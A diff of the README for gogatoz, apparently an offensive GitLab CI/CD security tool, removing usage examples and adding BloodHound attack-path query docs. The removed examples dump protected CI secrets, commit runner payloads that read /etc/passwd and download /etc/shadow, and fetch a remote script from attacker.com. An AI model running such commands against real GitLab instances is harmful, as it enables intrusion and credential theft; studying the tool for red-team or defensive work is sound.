

Before and after one commit to mr-pmillz/gogatoz, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -129,92 +238,15 @@ cat pipeline.yml | ./gogatoz attack -t group/project --commit-ci --ci-stdin --br
 
-# Dump group variables (requires group ID or full path)
-./gogatoz attack -t group/project --secrets --group-vars --group-id mygroup/subgroup --json
-
-# Include protected variables
-./gogatoz attack -t group/project --secrets --project-vars --group-vars --group-id 123 --include-protected --json
-```
-- Runner discovery and targeting:
-```bash
-# Discover available runner tags for a project
-./gogatoz attack -t group/project --discover-tags
-
-# Filter by executor type
-./gogatoz attack -t group/project --discover-tags --executor docker --json
-
-# Discover tags and filter by shell executor
-./gogatoz attack -t group/project --discover-tags --executor shell
-```
-- Runner-on-Runner (RoR) attacks:
-```bash
-# Basic RoR shell payload with command execution
-./gogatoz attack -t group/project --commit-ci --payload ror-shell \
-  --tags self-hosted,linux --cmd 'whoami; cat /etc/passwd'
-
-# RoR with file download/exfiltration
-./gogatoz attack -t group/project --commit-ci --payload ror-shell \
-  --tags self-hosted --download /etc/shadow
-
-# Advanced RoR with remote script and keep-alive (heartbeat every 30s)
-./gogatoz attack -t group/project --commit-ci --payload runner-on-runner \
-  --tags self-hosted,windows --script-url https://attacker.com/payload.ps1 \
-  --os windows --keepalive 30
-
-# Auto-discover tags and commit RoR payload
-./gogatoz attack -t group/project --commit-ci --payload ror \
-  --executor docker --cmd 'id; uname -a'
-```
-- Branch deconflict strategies:
-```bash
-# Fail if branch exists (default behavior)
-./gogatoz attack -t group/project --commit-ci --ci-file payload.yml --deconflict fail
-
-# Append suffix if branch exists (gogatoz-attack-1, gogatoz-attack-2, etc.)
-./gogatoz attack -t group/project --commit-ci --ci-file payload.yml --deconflict suffix
-
-# Force overwrite existing branch
-./gogatoz attack -t group/project --commit-ci --ci-file payload.yml --deconflict force
-```
-- Cleanup mode (remove attack artifacts):
-```bash
-# Remove a specific branch
-./gogatoz attack -t group/project --cleanup --cleanup-branch gogatoz-attack
-
-# Remove .gitlab-ci.yml from a branch
-./gogatoz attack -t group/project --cleanup --cleanup-ci --branch exfil-branch
-
-# Revoke a deploy key by ID
-./gogatoz attack -t group/project --cleanup --revoke-deploy-key 12345
-
-# Remove a member by user ID
-./gogatoz attack -t group/project --cleanup --remove-member-id 67890
-
-# Comprehensive cleanup (remove branch, CI file, deploy key, and member)
-./gogatoz attack -t group/project --cleanup \
-  --cleanup-branch gogatoz-attack \
-  --cleanup-ci \
-  --revoke-deploy-key 12345 \
-  --remove-member-id 67890 --json
+# Install 10 pre-built Cypher attack path queries
+gogatoz bloodhound queries
 ```
 
-## Configuration file (Viper)
+**10 pre-built Cypher queries**: All Exploitable Findings, Dependency Pwnage Matrix (transitive chains), Cross-Project Include Map, Runner Blast Radius, Shared Runner Attack Surface, Downstream Trigger Chains, Remote Include Risk Map, Full Attack Surface Graph, Pivot Attack Chains, Secret and Credential Exposure.
 
-You can provide defaults in a config file and override them with environment variables and flags.
+**Graph schema**: 10 node kinds (GitLab Instance, Group, Project, Runner, CI Config, Job, Finding, Secret, Pipeline, Credential) and 15 edge kinds including traversable attack edges (`CICD_DependsOn`, `CICD_IncludesProject`, `CICD_RunsOn`, `CICD_SharedRunner`, `CICD_PivotsTo`, etc.)
 
-- Location: pass --config or set GOGATOZ_CONFIG. If not set, ./.gogatoz.yaml is used if present.
-- Precedence: flags > environment variables > config file > built‑in defaults.
-- Environment variables follow the flag names uppercased with dashes replaced by underscores, e.g. FOLLOW_INCLUDES, INCLUDE_DEPTH, GITLAB_URL, TOKEN.
+Also integrates with the `enumerate` command via `--bloodhound-export <path.zip>` for single-step scan-to-graph workflows.
 
-Example .gogatoz.yaml:
+### report
 
-```yaml
-# Global defaults
-gitlab-url: https://gitlab.com
-# You can omit token here and use env GITLAB_TOKEN instead
-json: true
-verbose: false
-# Reliability knobs (optional)
-rate-rps: 8        # requests per second
-rate-burst: 16     # burst size
-retry-max: 3       # retries on 429/5xx
-user-agent: GoGatoZ/0.1 (+docs)
+Generate reports from scan results.
 
````
Also changed, not shown: other parts of README.md (+362 -230 lines).
